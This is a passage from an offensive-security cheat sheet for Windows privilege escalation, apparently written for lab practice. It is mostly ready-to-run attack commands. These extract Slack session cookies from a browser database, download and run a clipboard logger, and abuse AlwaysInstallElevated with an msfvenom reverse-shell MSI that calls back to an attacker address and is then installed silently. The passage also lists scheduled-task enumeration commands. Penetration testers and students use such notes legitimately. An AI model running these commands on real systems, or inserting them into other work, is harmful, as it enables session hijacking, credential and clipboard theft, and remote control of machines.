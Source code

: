 - Extract website Cookie  from Database : 
```shell
python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d
```

**Clipboard** 
- Download ClipboardLogger : 
```sh
wget https://github.com/inguardians/Invoke-Clipboard/blob/master/Invoke-Clipboard.ps1
 ```
 
 - Monitor the Clipboard:
```powershell
Invoke-ClipboardLogger
```


#### Miscellaneous Techniques

**Always Install Elevated**

- Enumerating Always Install Elevated Settings :
```powershell
 reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
 reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
```

- Generating MSI Package

```shell
 msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi
```

- Executing MSI Package:
```cmd
msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
```

**Scheduled Tasks**

- Enumerating Scheduled Tasks :
```cmd
 schtasks /query /fo LIST /v
 schtasks /query /v /fo LIST > tasklist.txt
```

- Speed Up the task : 
```sh
Get-ScheduledTask -TaskName "Daily_Checkup" | Start-ScheduledTask
```

- Enumerating Scheduled Tasks with powershell :
```powershell
Get-ScheduledTask | select TaskName,State
```

**User/Computer Description Field**

- Checking Local User Description Field:
```powershell
Get-LocalUser
```
